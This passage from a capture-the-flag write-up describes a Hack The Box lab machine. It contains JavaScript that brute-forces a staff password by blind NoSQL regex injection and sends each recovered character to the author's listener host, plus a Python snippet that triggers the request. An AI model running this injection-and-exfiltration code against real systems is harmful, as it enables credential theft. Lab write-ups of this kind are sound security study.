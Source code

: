 ```python
#print(inquiry)

trigger = f'http://10.129.61.14{inquiry}'
p = requests.get(trigger)
```

Then, we need to craft a special JS script that would allow us to brute force the password, and exfiltrate it onto our web server. This can be done using regex Blind NoSQL injection.

While there is probably a way to automate this to retrieve the full password with one run, I was unable to make that work for whatever reason and could only brute force 1 character each time. Here's the Javascript code I used to brute force it:

```javascript
var char_set = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-_@!?";
var valid_pass = "";
var found_char = false;

for (let k = 0; k < char_set.length && !found_char; k++) {
    var xhr = new XMLHttpRequest();
    xhr.onload = handleResponse;
    xhr.open("POST", "http://staff-review-panel.mailroom.htb/auth.php", true);
    xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded;charset=UTF-8');
    xhr.send(encodeURI('email=tristan@mailroom.htb&password[$regex]=^' + valid_pass + char_set[k] + '.*'));

    function handleResponse() {
        var response = xhr.responseText;
        if (response.includes("2FA")) {
            var call = new XMLHttpRequest();
            call.open('get', 'http://10.10.16.31/?pass=' + char_set[k], true);
            call.send();
        } else if (response.includes("Invalid password")) {
            found_char = true;
        }
    };
}
// again, i had help from ruycraft for this script!
```

With this, I was able to retrieve the password character by character:

<figure><img src="../../.gitbook/assets/image (49) (5).png" alt=""><figcaption></figcaption></figure>
